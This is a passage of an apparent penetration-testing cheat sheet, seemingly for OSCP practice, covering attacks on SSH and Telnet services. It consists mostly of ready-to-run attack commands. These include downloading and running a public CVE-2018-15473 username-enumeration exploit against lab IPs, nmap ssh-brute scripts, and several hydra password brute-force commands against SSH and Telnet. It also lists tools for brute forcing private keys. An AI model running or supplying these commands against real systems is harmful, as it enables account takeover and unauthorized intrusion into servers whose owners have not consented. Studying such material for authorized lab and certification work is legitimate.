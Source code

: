 * Enumerate valid usernames
```
wget https://raw.githubusercontent.com/Rhynorater/CVE-2018-15473-Exploit/master/sshUsernameEnumExploit.py
// or locate sshUsernameEnumExploit.py

python sshUsernameEnumExploit.py --port 22 --outputFile enum --outputFormat list --username root 10.11.1.35
python sshUsernameEnumExploit.py --port 22 --outputFile enum --outputFormat list --username Administrator 10.11.1.35
```

* [Enumeration Commands](http://www.lifeoverpentest.com/2018/02/enumeration-cheat-sheet-for-windows.html)
```
nmap -p 22 -n -v -sV -Pn --script ssh-auth-methods --script-args ssh.user=root 192.168.1.10
nmap -p 22 -n -v -sV -Pn --script ssh-hostkey 192.168.1.10 
nmap -p 22 -n -v -sV -Pn --script ssh-brute --script-args userdb=user_list.txt,passdb=password_list.txt 192.168.1.10
```

* If you see multiple SSH services on different ports with the same key, they could be [bad keys](https://github.com/rapid7/ssh-badkeys)
```
ssh root@10.11.1.71
ECDSA key fingerprint is SHA256...
```

* Hydra
```
hydra -L validusers.txt -e nsr ssh://IP

hydra -L validusers.txt -P wordlist.txt 10.10.10.10 ssh

hydra -L validusers.txt -P cewl.txt 10.10.10.10 ssh

hydra -l root -P 500-worst-passwords.txt 10.10.10.10 ssh
```

* OSCP recommended SSH brute force tools
	* A custom wordlist for the target (using another vulnerability or CeWL/wordhound)
	* Hydra (don't forget about "-e [VALUES]")
	* Patator (Password fuzzer rather than brute force)
	* Crowbar (great for brute forcing private keys)
	* Metasploit's ssh_login.

[Back](#summary)

## Port 23 - Telnet
Telnet is considered insecure because it does not encrypt traffic. Search exploit-db and it will show various RCE-vulnerbailites on different versions. 
* Brute Force it
```bt
hydra -l root -P /root/SecLists/Passwords/10_million_password_list_top_100.txt 192.168.1.101 telnet
```
